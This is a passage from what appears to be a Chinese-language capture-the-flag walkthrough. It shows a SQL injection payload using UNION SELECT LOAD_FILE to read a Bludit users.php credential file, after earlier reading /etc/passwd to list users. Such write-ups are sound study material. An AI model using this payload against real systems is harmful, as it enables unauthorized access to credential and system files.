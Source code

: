 ![image-20220906211151533](../../.gitbook/assets/image-20220906211151533.png)

仔细看`/etc/passwd`，我们看到我们有四个用户，我们以后可能可以转移到- `admin`、`monitor`和。`elliot``nicholas`

接下来让我们尝试阅读 Bludit 用户文件。

```
a" UNION SELECT LOAD_FILE('/var/www/html/news/bl-content/databases/users.php'),2,3,4 as result -- -
```

![image-20220906211132043](../../.gitbook/assets/image-20220906211132043.png)

